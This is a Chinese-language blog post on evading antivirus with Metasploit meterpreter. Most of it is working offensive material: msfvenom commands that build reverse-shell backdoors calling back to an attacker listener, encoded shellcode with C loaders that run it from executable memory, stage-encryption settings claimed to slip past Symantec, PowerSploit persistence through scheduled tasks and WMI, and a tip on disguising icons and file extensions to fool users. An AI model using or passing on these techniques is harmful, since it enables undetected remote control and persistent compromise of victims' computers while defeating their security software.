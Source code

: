 ```yaml
---
layout: post
title:  "Bypass AV meterpreter免杀技巧"
date:   2016-11-15 14:41:01 +0800
categories: MSF
tag: Bypass AV
---
```


* content
{:toc}



0x01 meterpreter简介
------------------

MetasploitFramework是一个缓冲区溢出测试使用的辅助工具，也可以说是一个漏洞利用和测试平台，它集成了各种平台上常见的溢出漏洞和流行的shellcode，并且不断更新，使得缓冲区溢出测试变的方便和简单。
需要说明的是meterpreter在漏洞利用成功后会发送第二阶段的代码和meterpreter服务器dll，所以在网络不稳定的情况下经常出现没有可执行命令，或者会话建立执行help之后发现缺少命令，经常出现什么sending stager error，如果网络真的很差的话，可以选用stageless meterpreter。

（meterpreter网上的资料很多，drops上就有不少，我们就长话短说，介绍最有用的几个。）

0x02 生成后门
---------

在旧的metasploit中，生成payload是用msfpayload+msfencode，之后rapid7整合了这两个命令变成了msfvenom，并添加了更多的功能，下面是用msfvenom生成backdoor的实例。

    msfvenom -p  windows/meterpreter/reverse_tcp lhost=192.168.1.200 lport=4444 -f exe > /root/Desktop/Green_m.exe

这样可以生成一个使用tcp协议反向连接到192.168.1.200的4444端口的meterpreter的后门。
这样生成的exe可以运行，但是会被杀掉。

0x03 生成shellcode免杀
------------------

长话短说，手动编译meterpreter并对shellcode进行编码就能绕过静态查杀，meterpreter本身就是直接加载进内存并且有编码，绕过动态查杀基本没问题，(当然你也可以使用veil-evasion，不过效果不怎么好)

    msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ lhost=192.168.1.200 lport=4444   -f c

上述命令生成在之前的基础上生成基于c语言格式的shellcode，通过e参数指定编码方式，i参数指定编码次数，b参数去除指定代码，一般是空代码或者错误代码，-f指定生成格式。

    unsigned char buf[] = 
    "shellcode is here";
    main()
    {
    	( (void(*)(void))&buf)();
    }

这种方式vc++6.0能够成功编译，但是vs编译会报错，可以换成

    main()
    {
    	Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    	memcpy(Memory, buf, sizeof(buf));
    	((void(*)())Memory)();
    }

还有很多其他的方法，这里就不一一测试了。

**友情提示：在实战情况下，免杀效果会根据编译器和系统环境而变化，可以多准备一些环境进行免杀工作。**

通过上述方法编译生成的exe可以绕过几乎100%杀软，包括360，卡巴斯基，小红伞等杀软。


0x04 选择payload进行免杀
------------------

上面生成shellcode的方式是针对杀软静态免杀的，接下来说到动态行为免杀。

在对市面上主流的杀软进行测试的过程中，发现symantec会在meterpreter回连成功，从metasploit里接受数据的时候报毒。

无论是自己手动编码编译还是msf自动生成的exe都会这样被报毒。

经过笔者自己测试，使用reverse_https等payload可以anti symantec。

    msfvenom -p  windows/meterpreter/reverse_https  lhost=192.168.1.200 lport=443   -f c

但是需要在metasploit设置

    set EnableStageEncoding true
    set stageencoder x86/fnstenv_mov
    set stageencodingfallback false

将控制端向被控制端发送的stage进行编码，从而绕过symantec的查杀。

同样，使用reverse_tcp_rc4也有同样的效果，而且不能设置stageencoder选项，更稳定更方便。

    msfvenom -p  windows/meterpreter/reverse_tcp_rc4  lhost=192.168.1.200 lport=4444 RC4PASSWORD=Green-m  -f c

利用rc4对传输的数据进行加密，密钥在生成时指定，在监听的服务端设置相同的密钥。就可以在symantec眼皮地下执行meterpreter。

这里做一个抛砖引玉的作用，其他payload的查杀效果需要各大黑客自己去测试。

0x05 meterpreter常驻的免杀
---------------------

常见的添加meterpreter 常驻的方法无非两种，

persistence和metsvc，这两种方法效果还是不错的，不过在面对杀软的时候无能为力，几乎100%被杀。

下面介绍几种能绕过杀软的添加自启动方法。

 - **1.使用exploit/windows/local/registry_persistence**

通过用户自己指定payload及编码方式，将shellcode添加到注册表，然后再利用powershell加载该shellcode，成功运行meterpreter。

由于加载的payload是由metasploit指定，每次都不一定一样，这个方法在面对大部分主流AV的时候简直强大，只要不监视注册表操作不限制powershell，几乎不会被杀。

同类型的还有其他payload，如exploit/windows/local/vss_persistence，exploit/windows/local/s4u_persistence，有的效果也不错，如添加计划任务启动的功能，但或多或少都有一些限制，总体说来不如上面讲到的方法。

 - **2.利用powershell**

powershell因为其特性，被很多杀毒软件直接忽视，因此用这个方法经常能达到出其不意的效果

其实这个方式和第一种原理都是一样，不过自定义的powershell脚本效果更佳。

这里可以利用一个工具powersploit，下面用它来示范一个简单的例子。

    Import-Module .\Persistence\Persistence.psm1
    
    $ElevatedOptions = New-ElevatedPersistenceOption -ScheduledTask -OnIdle
    
    $UserOptions =New-UserPersistenceOption -ScheduledTask -Hourly
    
    Add-Persistence -FilePath .\Green_m.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose

其中Green_m.ps1是加载有payload的powershell脚本文件，你可以用msf生成一个加载meterpreter的ps1文件。

    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.200 lport=4444 -f psh-reflection -o Green_m.ps1

当然你也可以选择不执行powershell文件而直接执行某个PE文件，可以通过将代码赋予变量来执行。

    $Green_m = { c:\windows\system32\notepad.exe }
    
    $ElevatedOptions =New-ElevatedPersistenceOption -PermanentWMI -AtStartup
    $UserOptions =New-UserPersistenceOption -ScheduledTask -Hourly
    Add-Persistence -ScriptBlock $Green_m -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $Us erOptions -Verbose -PassThru | Out-EncodedCommand | Out-File .\EncodedPersistentScript.ps1

powersploit还有其他非常有用的功能，有兴趣可以自己去github或者使用get-help查询。

 - **3.手动编写**

只要是工具用得太多都难免被AV发现，这个时候就需要手动编写自启动功能。

手动添加自启动，自删除，再改个图标后缀技能骗过杀软也能骗过人眼，扩展一下就是个大马，这里就不多说了。

0x06 总结
-------

meterpreter因为其简单多变的结构，强大的功能，在渗透中面对未知杀软环境的情况下效果不错。

***注：本文所做所有测试不保证完全有效，仅供参考。***

转载请注明出处：[https://green-m.github.io/2016/11/15/meterpreter-bypass-av/]

